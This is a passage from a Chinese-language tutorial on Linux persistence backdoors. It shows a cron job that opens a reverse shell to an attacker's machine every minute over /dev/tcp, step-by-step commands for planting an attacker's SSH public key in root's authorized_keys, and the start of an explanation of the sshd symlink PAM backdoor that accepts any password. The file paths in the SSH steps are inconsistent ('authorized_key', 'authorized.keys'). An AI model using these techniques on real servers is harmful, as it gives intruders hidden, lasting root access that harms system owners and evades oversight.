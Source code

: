   
  
下列代码表示每分钟反弹一次shell到攻击机  

```
*/1 * * * * bash -i >& /dev/tcp/攻击机外网ip/攻击机端口 0>&1
```

  
  
  
  
- ssh公钥免密(常用)  
  
将客户端生成的ssh公钥写道目标服务器的 ~/.ssh/authorized_keys中，之后客户端利用私钥完成认证即可登录。该后门易被发现  
  
> 制作过程  
>     1. 在攻击机上生成公钥私钥对  

```
ssh-keygen -t rsa
```

  
  
>> 在中途会让输入密钥对密码，如果需要免密登录则回车跳过  
  
    1. 将攻击机.ssh目录下的id_rsa.pub复制到目标服务器的
```
/root/.ssh/authorized_key
```

  
文件里  

```
scp ~/.ssh/id_rsa.pub root@目标服务器IP地址:/root/.ssh/authorized_keys
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4Of4m6Qfk5SNn4Ud7RDdk8rDpfcCibhoOWicYzmI0oqDZdib9icRib5JFuVKA/640?wx_fmt=png&from=appmsg "")  
  
  
    1. 在目标服务器中，将authorized_keys权限改为600  

```
chmod 600 /root/.ssh/authorized.keys
```

  
  
    1. 尝试免密登录  
  
  
  
  
详情请见ssh登录详解  
- ssh软连接后门  
  
非常经典的后门，直接对sshd建立软连接，之后就能用任意密码登录  
  
> 软连接后门的原理是利用了**PAM配置**  
文件的作用，将sshd文件软连接名称设置为su，这样应用在**启动**  
过程中会去PAM配置文件夹中寻找是否存在对应名称的配置信息，su在pam_rootok检测uid 0即认证成功，也可以使用/**etc/pam.d中存在**  
的其他软连接名字  
  
  